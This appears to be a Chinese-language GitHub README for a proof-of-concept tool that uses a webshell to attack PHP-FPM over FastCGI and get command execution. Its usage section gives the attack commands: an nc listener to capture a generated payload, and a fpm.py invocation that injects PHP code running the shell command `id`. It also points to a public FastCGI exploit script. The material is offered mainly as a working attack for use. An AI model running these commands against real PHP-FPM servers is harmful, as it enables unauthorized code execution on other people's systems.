

# 用WebShell攻击PHP-FPM

来自[@Medicean](https://github.com/Medicean) 大佬的文末一个想法 https://mp.weixin.qq.com/s/T_k_TVv6h7W8paZyHym-sw

快速实现了一个poc，可以实现命令执行

后续用单文件PHP实现一个Fastcgi Client，然后已知PHP文件就用WebShell自身，WebShell命令执行美滋滋

## 使用

测试 php7.3-fpm

```
echo "<?php echo 1; ?>" > /tmp/poc.php

nc -lvp 6666 > payload.txt

python fpm.py -c '<?php echo `id`; exit;?>' -p 6666 127.0.0.1 /tmp/poc.php
```

运行`poc.php`

```
php poc.php
```



## 参考

fpm.py 来自 https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75

[Fastcgi协议分析 && PHP-FPM未授权访问漏洞 && Exp编写](https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html)